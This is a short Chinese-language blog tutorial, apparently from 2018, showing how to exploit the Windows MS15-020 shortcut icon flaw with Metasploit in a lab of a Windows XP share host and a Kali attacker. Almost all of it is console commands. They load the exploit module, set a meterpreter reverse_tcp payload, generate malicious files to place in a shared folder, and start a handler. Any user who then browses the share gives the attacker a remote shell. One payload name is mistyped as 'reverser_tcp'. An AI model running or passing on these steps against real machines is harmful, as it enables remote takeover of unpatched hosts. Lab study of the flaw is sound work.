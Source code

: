 ```yaml
---
title: Metasploit MS15-020漏洞利用
date: 2018-05-06
tags: Metasploit
layout: post
---
```




环境：
共享机/受害者：windows xp 		IP:192.168.222.1
攻击机：kali linux  				IP:192.168.10.1


```
msfconsole  //在kali终端输入msfconsole进入控制台

search ms15-020 //搜索ms15-020漏洞

use exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader //使用该模块

show options //显示所有参数

set payload windows/meterpreter/reverse_tcp //设置payload

```
![这里写图片描述](https://img-blog.csdn.net/20180506104117344?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

设置参数：

```
set unchost 192.168.222.1 //共享的主机地址
set uncshare //共享的文件夹名
set lhost 192.168.10.1 //攻击机IP地址 
exploit
```
![这里写图片描述](https://img-blog.csdn.net/20180506104925374?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
>运行后会生成三个文件，将三个文件放到共享机的share目录下。

继续在msf中使用handler进行监听：

```
use exploit/multi/handler
set payload windows/meterpreter/reverser_tcp
set lhost 192.168.10.1
exploit
```
![这里写图片描述](https://img-blog.csdn.net/20180506110005738?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

>以上设置完成之后在当别的用户再访问这个共享文件夹时就可以直接获得meterpreter

![这里写图片描述](https://img-blog.csdn.net/20180506111138581?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
![这里写图片描述](https://img-blog.csdn.net/20180506111152942?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
